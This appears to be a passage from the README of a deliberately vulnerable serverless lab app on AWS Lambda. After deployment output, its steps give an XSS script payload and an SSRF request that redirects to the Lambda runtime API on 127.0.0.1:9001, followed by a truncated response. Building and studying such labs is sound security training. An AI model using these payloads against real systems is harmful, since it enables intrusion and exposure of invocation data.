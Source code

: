 ```
Deploying vulnerable-lambda to stage dev (us-east-1)
Service deployed to stack vulnerable-lambda-dev (182s)
endpoint: ANY - https://xxxxxxxx.execute-api.us-east-1.amazonaws.com
functions:
  api: vulnerable-lambda-dev-app (1.3 MB)
	
Deploying vulnerable-lambda-dev-app to stage dev (us-east-1)
```
	
- Step 5: To access the application from UI, enter the endpoint in the browser:

    `https://xxxxxxxx.execute-api.us-east-1.amazonaws.com`

- Step 6: To access the index.html, run 

    `http get https://<sls-endpoint>.amazonaws.com/dev`

- Step 7: To exploit code injection vulnerability:

    `Open Browser and enter the payload in the name <script>alert('xss')</script>`
    
- Step 8: To access Runtime Invocation/SSRF Vulnerability 

    `http get https://<sls-endpoint>/dev/redirect?url=http://127.0.0.1:9001/2018-06-01/runtime/invocation/next`

Replace <sls-endpoint> to your endpoint url
You will see an output like this

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 3362
Content-Type: application/json
Date: Mon, 19 Sep 2022 12:51:25 GMT
Via: 1.1 07fc2bc5d694987fb9600fd890abcf99.cloudfront.net (CloudFront)
X-Amz-Cf-Id: s-9O72IRA5bgt1yHjTZmXiirfC4mucvf58E25iYpVhUdzLxhvmaMhQ==
X-Amz-Cf-Pop: DEL54-C2
X-Amzn-Trace-Id: Root=1-632865cd-3a79uyt60eceb8441913898a;Sampled=0
X-Cache: Miss from cloudfront
x-amz-apigw-id: YtTYJF4WPHxxXAw=
x-amzn-Remapped-Content-Length: 3362
x-amzn-RequestId: a56op6dc-0e13-48eq-bc9e-067912db6f7b

{
```